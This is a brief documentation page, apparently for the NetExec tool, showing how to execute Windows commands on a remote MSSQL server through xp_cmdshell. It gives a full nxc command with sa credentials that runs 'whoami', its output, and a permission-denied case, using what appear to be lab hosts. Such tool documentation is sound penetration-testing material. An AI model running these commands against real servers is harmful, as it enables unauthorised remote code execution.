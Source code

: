 ```yaml
---
description: Execute Windows command using NetExec
---
```


# Windows command

### Execute Windows Command

This option use `xp_cmdshell` to exec command on the remote host.

```
#~ nxc mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami
MSSQL       10.10.10.59     1433   None             [+] sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)
MSSQL       10.10.10.59     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.59     1433   None             --------------------------------------------------------------------------------
MSSQL       10.10.10.59     1433   None             tally\sarah
```

If permission is **DENIED**:

```
MSSQL       10.10.10.52     1433   None             [+] admin:m$$ql_S@_P@ssW0rd! (Pwn3d!)
MSSQL       10.10.10.52     1433   None             [-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
MSSQL       10.10.10.52     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.52     1433   None             None
```

{% hint style="info" %}
When playing with MSSQL, you can use the tool [MSDAT ](https://github.com/quentinhardy/msdat)from [quentinhardy](https://github.com/quentinhardy)
{% endhint %}

{% embed url="https://github.com/quentinhardy/msdat" %}
